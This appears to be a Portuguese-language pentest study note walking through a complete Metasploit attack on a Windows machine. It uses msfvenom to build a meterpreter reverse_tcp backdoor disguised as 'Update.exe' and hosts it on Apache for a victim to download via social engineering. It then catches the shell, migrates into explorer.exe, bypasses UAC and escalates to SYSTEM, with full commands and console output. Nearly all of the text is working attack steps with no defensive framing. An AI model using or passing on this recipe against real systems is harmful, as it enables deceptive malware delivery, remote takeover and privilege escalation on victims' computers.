 ```yaml
---
tags:
  - pentest
---
```

# Criando o backdoor

Primeiro, criaremos um payload com a função **reverse_tcp**. Portanto, abra seu terminal e execute o seguinte comando:

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.4 lport=1234 -o Update.exe
```

*IP = sua máquina*
*A porta pode ser qualquer uma. Deve ser usada a mesma posteriormente*

Agora você encontrará o arquivo `.exe` criado no diretório do Linux

# Colocando o backdoor na máquina alvo
Vamos hospedar o backdoor em um servidor simples. Primeiro startando servidor:
```powershell
service apache2 start
```

Copia-lo para uma pasta do servidor
```shell
cp Update.exe /var/www/html #diretório do apache
```

Agora você precisaria encontrar uma maneira de ==fazer a máquina alvo executá-lo==. Há várias maneiras de fazer isso po meio de Engenharia Social, porém esse método está fora do escopo deste tutorial. Vou apenas exemplificar como o alvo acessaria o link com o backdoor:
```powershell
http://172.26.183.253/Update.exe
```

O download iniciará instantaneamente.

```powershell
$ msfconsole  
```

Agora, vamos selecionar o arquivo e usa-lo

```powershell
msf6 > use multi/handler
```

Escolher o payload de para windows, setar o LHOST (nossa máquina) e a porta. Agora só escrever **run** e aguardar a máquina alvo se conectar

```shell
> set payload windows/meterpreter/reverse_tcp
#payload => windows/meterpreter/reverse_tcp
> set lhost 192.168.200.46
#lhost => 192.168.200.46

> set lport 4444
#lport => 4444

> run

#[*] Started reverse TCP handler on 192.168.200.46:4444 
```

Assim que a máquina executar o arquivo, teremos conseguido acesso total.

# Escalação de Privilégios
Com `getuid` conseguimos ver que temos por enquanto apenas permissão de usuário comum
```powershell
meterpreter > getuid
#Server username: rae-PC\rae
```

Para conseguir um nível de administração do sistema, daremos o comando `getsystem`. Assim, teremos mais acesso que antes, porém ainda não é um acesso completo. 

Caso o usuário feche a sessão, perderemos nosso acesso, portanto vamos seguir os próximos passos

Por meio do `getpig`, podemos ver nosso processo atual. Portanto, vamos trocar nosso *pig* por um de outro **processo que sempre está rodando**. Vamos rodar o comando `ps` para ver todos os processos e pegar o pig do processo `explorer.exe`

```powershell
meterpreter > getpid
#Current pid: 1840

meterpreter > ps
2648  2616  explorer.exe    x64   1  
rae-PC\rae              C:\Windows\explorer.exe
```

Para trocar, daremos o seguinte comando:
```powershell
meterpreter > migrate 2648
[*] Migrating from 1840 to 2648...
[*] Migration completed successfully.

meterpreter > getpid
Current pid: 2648 # migração concluida
```

Agora, continuando com a escalação de privilégios, vamos entrar no shell e verificar nosso usuário, que ainda é um usuário padrão:

```powershell
meterpreter > shell
Process 820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
rae-pc\rae #usuário comum
```

Para isso, vamos sair com `exit` e jogar a sessão para background, criar uma nova e implementar outro exploit para escalação

```powershell
C:\Windows\system32>exit
exit

meterpreter > background
#[*] Backgrounding session 1...

msf6 exploit(multi/handler) > sessions

#Active sessions 3===============

#  Id  Name  Type                     Information          Connection
#  --  ----  ----                     -----------          ----------
  #1         meterpreter x64/windows  rae-PC\rae @ RAE-PC  192.168.200.46:4444 -> 192.168.20
                                                          #0.53:49447 (192.168.200.53)

```


```powershell
msf6 exploit(multi/handler) > search uac
```

O exploit que usuaremos agora é este:

![[Pasted image 20231126172758.png]]

```powershell
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac
#[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac) > 
```

Por meio do comando `show options` conseguimos perceber que precisamos setar uma *session* que no caso é a sessão que anteriormente deixamos em background.

```powershell
msf6 exploit(windows/local/bypassuac) > show options

Module options (exploit/windows/local/bypassuac):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use if UAC is turned off (Accepted: P
                                         SH, EXE)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process,
                                         none)
   LHOST     192.168.200.46   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

View the full module info with the info, or info -d command.
```

Vamos setar o mesmo payload anterior

```powershell
msf6 exploit(windows/local/bypassuac) > set payload windows/meterpreter/reverse_tcp
```

Agora escolher uma arquitetura especifica, selecionar os mesmos `lhost` e `lport` como anteriormente e por  fim selecionar a sessão que deixamos em background

```powershell
msf6 exploit(windows/local/bypassuac) > show targets

#Exploit targets:
#=================

#    Id  Name
#    --  ----
#>  0   Windows x86
#    1   Windows x64

msf6 exploit(windows/local/bypassuac) > set target 0
#target => 0

msf6 exploit(windows/local/bypassuac) > set lhost 192.168.200.46
#lhost => 192.168.200.46

msf6 exploit(windows/local/bypassuac) > set lport 2022
#lport => 2022

msf6 exploit(windows/local/bypassuac) > set session 1
#session => 1

msf6 exploit(windows/local/bypassuac) > exploit
```

Uma nova sessão será criada e ficará na session 3. Com `getuid` vemos que ainda somos usuário comum, porém escalar o privilégio com o comando `getsystem`:

```powershell
meterpreter > getsystem
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Agora basta abrir o shell e ver nosso privilégio de admin. 

```powershell
meterpreter > shell
#Process 448 created.
#Channel 1 created.
#Microsoft Windows [Version 6.1.7601]
#Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
#whoami
#nt authority\system
```

